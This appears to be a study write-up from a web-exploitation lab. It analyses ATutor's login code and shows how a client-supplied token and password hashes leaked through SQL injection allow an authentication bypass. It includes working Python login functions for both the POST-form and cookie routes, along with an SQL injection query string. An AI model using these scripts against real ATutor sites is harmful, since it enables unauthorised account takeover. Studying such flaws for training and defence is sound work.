 # Authentication Bypass

We investigate the login process: 

- Can try to obtain password hashes and use hashes to bypass checks.
- Investigate login process to identify weaknesses.

## Login Process

- When we send login request, it passes the attribute `form_password_hidden` that seems to be a hash of the password.

![Untitled](Authentication%20Bypass%20f09f893acb8d4b41953ccfb36ed59dc6/Untitled.png)

- Login process:
    - This means that if set, the `token` field of the POST request can be used to set the Session’s token field.

```php
In login.php, we find:
include(AT_INCLUDE_PATH.'login_functions.inc.php');

Tracing this to login_functions.inc.php, we get:
if (isset($_POST['token'])){    
		$_SESSION['token'] = $_POST['token'];
}else{    
		if (!isset($_SESSION['token']))        
		$_SESSION['token'] = sha1(mt_rand() . microtime(TRUE));
}
```

When we follow the logic path, we get to the following query: 

```jsx
$row = queryDB("SELECT member_id, login, first_name, second_name, last_name, preferences, language, status, password AS pass, last_login FROM %smembers WHERE (login='%s' OR email='%s') AND SHA1(CONCAT(password, '%s'))='%s'", array(TABLE_PREFIX, $this_login, $this_login, $_SESSION['token'], $this_password), TRUE);

Vulnerable logic: AND SHA1(CONCAT(password, $_SESSION['token']))=$this_password;

Tracing the variables:
$_SESSION['token'] can be overwritten by $_POST['token']

$this_password is the value submitted as $_POST['form_password_hidden']
else if (isset($_POST['submit'])) {
    /* form post login */
    $this_password = $_POST['form_password_hidden'];
    $this_login        = $_POST['form_login'];
    $auto_login        = isset($_POST['auto']) ? intval($_POST['auto']) : 0;
    $used_cookie    = false;
}

password is the SQL query, the attribute password in the table. 
```

- This means that if we can obtain the password attribute from the database (with SQLi), we will be able to calculate the correct value that `$this_password` should take by performing `SHA1(CONCAT(password, $_SESSION['token']))` with the session token that we inject.
- We can also confirm this process by checking the front-end code (in `./themes/simplified_desktop/login.tmpl.php` )

```php
function encrypt_password() {
        document.form.form_password_hidden.value = hex_sha1(hex_sha1(document.form.form_password.value) + "<?php ec
ho $_SESSION['token']; ?>");
        document.form.form_password.value = "";
        return true;
}
```

## Hash Calculation

- With the password secret, we can follow the hashing/authentication process to calculate the hash to pass into the application.

```python
def login(ip, username, user_hash):
    target = f"http://{ip}//ATutor/login.php"
    token = "token"
    hashed = hashlib.sha1((user_hash + token).encode('utf-8'))

    data = {
        "submit": "Login",
        "form_login": username,
        "form_password_hidden": hashed.hexdigest(),
        "token":token
    }
    s = requests.Session()
    r = s.post(target, data=data)
    res = r.text
    
    if re.search("Invalid login/password combination.",res):
        return False
    return True
```

## Extra Mile Exercise

- Refer to exploit code for [exercise 3.7](https://github.com/dvdg6566/oswe/blob/main/labs/atutor/extra_mile_3.7.py)
- We can also use cookies to bypass the authentication process. The salted password is compared against

Application interaction with provided parameters: 

- If there is a cookie defined, then `this_login` and `this_password` are defined based on cookie attributes `ATLogin` and `ATPass`

```php
if (!$msg->containsFeedbacks()) {
    if (isset($_COOKIE['ATLogin'])) {
        $cookie_login = $_COOKIE['ATLogin'];
    }
    if (isset($_COOKIE['ATPass'])) {
        $cookie_pass  = $_COOKIE['ATPass'];
    }
}

if (isset($cookie_login, $cookie_pass) && !isset($_POST['submit'])) {
    /* auto login */
    $this_login        = $cookie_login;
    $this_password    = $cookie_pass;
    $auto_login        = 1;
    $used_cookie    = true;
}
```

### Auth Query

- The salted password is defined based on the sha512 hash of the hashed password concatenated with the sha512 hash of the last login element. As such, we use our SQLi to get both these attributes.
    - Alternatively, GET requests contain the sha512 hash of the last login. This login is used by the front-end to generate the `$this_password` attribute, and we can use this to directly calculate salted password hash.

```php
if ($used_cookie) {
    #4775: password now store with salt
    $rows = queryDB("SELECT password, last_login FROM %smembers WHERE login='%s'", array(TABLE_PREFIX, $this_lo
gin), TRUE);
    $cookieRow = $rows;
    $saltedPassword = hash('sha512', $cookieRow['password'] . hash('sha512', $cookieRow['last_login']));
    $row = queryDB("SELECT member_id, login, first_name, second_name, last_name, preferences,password AS pass,
language, status, last_login FROM %smembers WHERE login='%s' AND '%s'='%s'", array(TABLE_PREFIX, $this_login, $salt
edPassword, $this_password), TRUE);
}
```

- SQL Injection to get the last_login field.

```bash
Query String: "select/**/last_login/**/FROM/**/AT_members/**/WHERE/**/login=\"{member_username}\""
Result: 2023-11-30 09:59:20
```

- Login HTTP Request

```python
def login(ip, username, user_hash, user_lastlogin):
    target = f"http://{ip}//ATutor/login.php"

    lastlogin_hash = hashlib.sha512((user_lastlogin).encode('utf-8')).hexdigest()
    hashed = hashlib.sha512((user_hash +  lastlogin_hash).encode('utf-8')).hexdigest() 

    cookies = {
        'ATLogin': username,
        'ATPass': hashed
    }

    s = requests.Session()
    r = s.post(target, cookies=cookies)
    res = r.text

    if re.search("Invalid login/password combination.",res):
        return False
    return True
```